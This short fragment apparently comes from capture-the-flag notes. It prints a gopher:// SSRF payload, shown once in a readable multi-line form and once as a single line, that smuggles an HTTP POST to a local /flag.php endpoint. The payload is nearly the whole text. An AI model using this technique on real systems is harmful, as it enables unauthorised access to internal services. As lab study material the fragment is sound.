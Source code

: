 
易讀版:
gopher://127.0.0.1:80/_
POST%20/flag.php%20HTTP/1.1%0d%0a
Host:%20127.0.0.1%0d%0a
Content-Length:%2014%0d%0a
Content-Type:%20application/x-www-form-urlencoded%0d%0a
%0d%0a
givemeflag=yes%0d%0a


gopher://127.0.0.1:80/_POST%20/flag.php%20HTTP/1.1%0d%0aHost:%20127.0.0.1%0d%0aContent-Length:%2014%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0a%0d%0agivemeflag=yes%0d%0a
